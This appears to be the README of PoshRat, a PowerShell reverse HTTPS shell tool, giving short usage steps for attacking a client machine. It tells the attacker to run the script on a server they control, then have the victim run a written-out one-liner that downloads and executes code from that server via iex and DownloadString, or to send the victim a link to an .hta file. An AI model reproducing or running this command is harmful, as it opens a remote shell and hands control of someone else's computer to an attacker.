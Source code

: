 PoshRat
=======

PowerShell Reverse HTTPs Shell

1. Invoke PoshRat.ps1 On An Atacker Controlled Server
2. To Spawn The Reverse Shell Run On Client

   iex (New-Object Net.WebClient).DownloadString("http://[ServerIP]/connect")
3. [OR] Browse to or send link to [serverip]/app.hta

Created By Casey Smith @subTee
